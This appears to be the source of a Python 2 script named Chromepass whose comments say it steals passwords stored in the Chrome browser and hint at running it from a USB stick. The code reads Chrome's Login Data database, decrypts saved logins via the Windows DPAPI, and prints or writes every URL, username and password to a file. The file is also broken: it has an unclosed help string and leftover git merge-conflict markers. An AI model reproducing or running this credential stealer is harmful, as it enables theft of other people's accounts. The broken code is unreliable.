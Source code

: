 # Chromepass
//Steal password stored in chrome browser
//Use pendrive properly 
//Only for educational purpose

import sqlite3, win32crypt, os, sys

def decrypt(path, save_path):
	if not os.path.isfile(path):
		print 'The file doesn\'t exist!'
		return
	
	connChrome = sqlite3.connect(path)
	cursor = connChrome.cursor()
	try:
		cursor.execute('SELECT action_url, username_value, password_value FROM logins')
	except:
		print 'Impossible to read ' + path
		return

	print '\t\t\t*** Passwords ***'
	
	for query in cursor.fetchall():
		passwd = win32crypt.CryptUnprotectData(query[2], None, None, None, 0)[1]
		if passwd:
			print 'URL: ' + query[0]
			print 'User: ' + query[1]
			print 'Password: ' + passwd
			print '--------------------'
	
			if save_path != '':
				passwordsFile = open(save_path, 'a')
				passwordsFile.writelines('URL: ' + query[0] + '\nUser: ' + query[1] + '\nPassword: ' + passwd + '\n--------------------\n')
				passwordsFile.close()

def show_help():
    print '''  Usage:
    python ChromePass.py                                   # Run with the default location of the Login Data file.
    python ChromePass.py "path_to_file"                    # Run with a path to the Login Data file.
    python ChromePass.py "path_to_file" -S "path_to_save"  # Run with a path to the Login Data file and save.
    python ChromePass.py -S "path_to_save"                 # Save the content of the default Login Data file.

<<<<<<< HEAD
 
=======

>>>>>>> 828286503238c3fd4a8a3b1bbae5ce8570f7f331
if __name__ == '__main__':
    arg = sys.argv
    args = len(arg)
    login_data = os.getenv('LOCALAPPDATA') + '\Google\Chrome\User Data\Default\Login Data'

    if args == 1:
        decrypt(login_data, '')
    elif args == 2:
        decrypt(arg[1], '')
    elif args == 3:
        if arg[1].upper() == '-S':
            decrypt(login_data, arg[2])
        else:
            show_help()
    elif args == 4:
        if arg[2].upper() == '-S':
            decrypt(arg[1], arg[3])
        else:
            show_help()
    else:
        show_help()
